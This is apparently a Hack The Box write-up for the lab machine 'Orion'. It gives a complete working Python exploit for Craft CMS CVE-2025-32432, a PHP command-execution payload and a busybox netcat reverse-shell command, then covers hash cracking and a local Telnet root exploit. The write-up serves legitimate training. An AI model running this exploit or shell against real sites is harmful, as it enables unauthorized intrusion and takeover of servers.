




# Orion

<div class="wu-meta" markdown="span">
<span class="wu-badge wu-os">:fontawesome-brands-linux: Linux</span>
<span class="wu-tags">
<span class="wu-tag">Craft CMS</span>
<span class="wu-tag">Database hashes</span>
<span class="wu-tag">Telnet</span>
</span>
</div>

!!! abstract "What this box demonstrates"
    Orion rewarded keeping track of findings that were not immediately useful. The database led to Adam, but the second internal service from the same enumeration pass supplied the final escalation.

## Attack path

1. Use the recorded Craft CMS transform/session exploit to obtain a www-data shell.
2. Read database credentials, crack Adam's hash, and use SSH.
3. Return to the local Telnet service and run the recorded GNU inetutils exploit.

[HTB machine](https://app.hackthebox.com/machines/945) · [Official retirement evidence](https://labs.hackthebox.com/achievement/machine/2048041/945) (checked November 17, 2026).

## Setup 

```bash
export IP="10.129.140.13"
```

### /etc/hosts
```bash
echo "$IP    orion.htb" | sudo tee -a /etc/hosts
```

---
## Enumeration
### Port Discovery / Scanning

**Quick Port Scan**
```bash
rustscan -a $IP --ulimit 5000 | tee rustscan.txt
```

**Full Nmap Scan**
```bash
nmap -sC -sV -p- $IP -oN nmap_full.txt
```
### Nmap Results
```text
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

---
## Service Enumeration

### 80
Landing page doesn't give any useful information, however, attempting to go to `/admin` takes us to a landing page where we can see "Craft CMS 5.6.16" banner.

<figure class="wu-evidence" markdown>

<figcaption>The exposed admin page identifies Craft CMS 5.6.16.</figcaption>
</figure>

Googling for this service and version number, we can find that there is an unauthenticated RCE vulnerability with several POCs available on GitHub and exploitDB.

Essentially, we're chaining three vulnerabilities together in our exploit:
```text
[1] SESSION POISONING
Unauthenticated /admin/dashboard request
            ↓
Craft stores requested URL in session
            ↓
sess_ABC123 contains PHP code

[2] GET THROUGH CSRF
Fetch login page
            ↓
obtain legitimate anonymous CSRF token
            ↓
malicious POST is accepted

[3] ARBITRARY FILE INCLUDE → RCE
Attacker-controlled ImageTransform config
            ↓
Yii class confusion
            ↓
instantiate PhpManager
            ↓
itemFile = sess_ABC123
            ↓
require("sess_ABC123")
            ↓
PHP payload executes
```

Utilizing the help of AI, we're able to take a POC from GitHub that was incompatible out of the box and modify it to work for Orion:

The original pasted script lost its indentation. This listing restores block structure and corrects the scan's always-true status test; it has been syntax-checked, but not rerun against the target. The invocation and shell result below are the original recorded evidence.

```python title="exploit.py"
#!/usr/bin/env python3
"""Formatting-restored transcription of the saved Orion PoC; not a new lab run."""
import re
import sys
import argparse
import urllib.parse
import urllib3
import requests

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def _raw_request(self, conn, method, url, **kw):
    url = urllib.parse.unquote(url)
    return self._orig_req(conn, method, url, **kw)

urllib3.connectionpool.HTTPConnectionPool._orig_req = (
    urllib3.connectionpool.HTTPConnectionPool._make_request
)
urllib3.connectionpool.HTTPConnectionPool._make_request = _raw_request

def brute_asset_id(sess, base, max_id=300):
    api = f"{base}/index.php?p=admin/actions/assets/generate-transform"
    for aid in range(max_id):
        response = sess.post(
            api, json={"assetId": aid, "handle": {"width": 1, "height": 1}},
            verify=False, allow_redirects=False,
        )
        # The saved expression `== 200 or 302` was always true.
        if response.status_code in (200, 302):
            print(f"[+] assetId = {aid}")
            return aid
    raise RuntimeError("No valid assetId found")

def push_payload(sess, base, php_code):
    response = sess.get(
        f"{base}/index.php",
        params={"p": "admin/dashboard", "a": php_code},
        verify=False, allow_redirects=True,
    )
    if response.status_code != 200:
        print(f"[!] Payload request returned {response.status_code}")
    match = re.search(r'name="CRAFT_CSRF_TOKEN" value="([^"]+)', response.text)
    if not match:
        raise RuntimeError("No CSRF token found")
    token = match.group(1)
    sid = sess.cookies.get("CraftSessionId")
    if not sid:
        raise RuntimeError("No CraftSessionId found")
    print(f"[+] CSRF = {token} SessionID = {sid}")
    return token, sid

def trigger_rce(sess, base, asset_id, session_id, csrf, cmd):
    body = {
        "assetId": asset_id,
        "handle": {
            "width": 1,
            "height": 1,
            "as hack": {
                "class": "craft\\behaviors\\FieldLayoutBehavior",
                "__class": "yii\\rbac\\PhpManager",
                "__construct()": [{
                    "itemFile": f"/var/lib/php/sessions/sess_{session_id}"
                }],
            },
        },
    }
    response = sess.post(
        f"{base}/index.php",
        params={"p": "actions/assets/generate-transform", "cmd": cmd},
        json=body, headers={"X-CSRF-Token": csrf}, verify=False,
    )
    if response.status_code not in (200, 500):
        raise RuntimeError(f"Trigger returned HTTP {response.status_code}")
    return response.text

def extract_output(response):
    try:
        output = response.split("?p=admin/dashboard&a=", 1)[1]
    except IndexError:
        return "<<Could not parse output>>"
    return re.sub(r"<[^>]+>", "", output).strip()

def main():
    parser = argparse.ArgumentParser(description="CVE-2025-32432 two-request PoC")
    parser.add_argument("-u", "--url", required=True)
    parser.add_argument("-c", "--cmd", required=True)
    parser.add_argument("-a", "--asset", type=int)
    parser.add_argument("-s", "--scan-max", type=int, default=300)
    args = parser.parse_args()
    session = requests.Session()
    base = args.url.rstrip("/")
    asset_id = args.asset or brute_asset_id(session, base, args.scan_max)
    php_code = "<?=" + "exec($_GET['cmd']);die()" + "?>"
    print(f"[+] PHP: {php_code}")
    csrf, sid = push_payload(session, base, php_code)
    response = trigger_rce(session, base, asset_id, sid, csrf, args.cmd)
    print(extract_output(response))

if __name__ == "__main__":
    try:
        main()
    except Exception as error:
        print(error, file=sys.stderr)
        sys.exit(1)
```

> Original POC: https://github.com/CTY-Research-1/CVE-2025-32432-PoC/blob/main/craftcms_final_payload.py

Now, we can setup a listener and catch a reverse shell:
```bash
python3 exploit.py -u http://orion.htb -c "busybox nc 10.10.14.145 4444 -e sh"
```

<figure class="wu-evidence" markdown>

<figcaption>The recorded Craft CMS invocation returns a www-data shell.</figcaption>
</figure>

---
## Foothold (Initial Access)

As `www-data`, we can import and run `linpeas` to scan the host for privilege escalation to a normal user account and gain our first `user.txt` flag. 

While we can see several potentially interesting observations from our `linpeas` output, notice two interesting findings:

1. Username/password found in ENV (`root:SuperSecureCraft123Pass!`) for a database
	 
<figure class="wu-evidence" markdown>

<figcaption>The application environment exposes its lab database credentials.</figcaption>
</figure>

	 
2. Internal ports 3306 and 23 are open
	
<figure class="wu-evidence" markdown>

<figcaption>Local service enumeration identifies database and Telnet listeners.</figcaption>
</figure>

For now, we'll focus on port 3306 as we've just obtained database creds. Attempt to login as the database user `root`

```bash
www-data: mysql -u root -p'SuperSecureCraft123Pass!'
```

> `-p` must be used here, otherwise, you'll see `ERROR 1698 (28000): Access denied for user 'root'@'localhost'`

Now, explore the DB to find a database, `orion`, and interesting table, `users`:

```sql
MariaDB [(none)]> show databases;
MariaDB [(none)]> use orion;
MariaDB [orion]> show tables;
MariaDB [orion]> select * from users;
```

To find the following:
```text
adam@orion.htb | $2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/B42LUg0lS
```

Now, we can crack the hash with `john`:
```bash
john -w=~/Wordlists/rockyou.txt adam.hash
```

To reveal the password: `darkangel`

Now, we can SSH onto the server as our user `adam` and obtain the first flag, `user.txt`

```bash
ssh adam@$IP
Password: darkangel
```

---
## Privilege Escalation

Note `adam` cannot run `sudo` on this host. To continue enumerating, I ran `linpeas` again as our more elevated user, but no new results came back.

Back to our initial `linpeas` run, we noticed two interesting open ports: 23 and 3306. We utilized `mysql` to obtain credentials for `adam`, however, we didn't need port 23 (Telnet).

```bash
adam@orion:/tmp$ telnet --version
telnet (GNU inetutils) 2.7
```

Researching more into GNU inetutils 2.7, we can see that this has a PE vulnerability, https://www.exploit-db.com/exploits/52524

Download the exploit and simply run it against the localhost since we're already logged into the machine to obtain root on the target:

```bash
python3 exploit.py 127.0.0.1
root@orion:~# whoami
whoami
root
```

## Lessons learned

The database account named root was distinct from the operating-system root account. It enabled a pivot to Adam; the final operating-system escalation came from the separate local Telnet service.
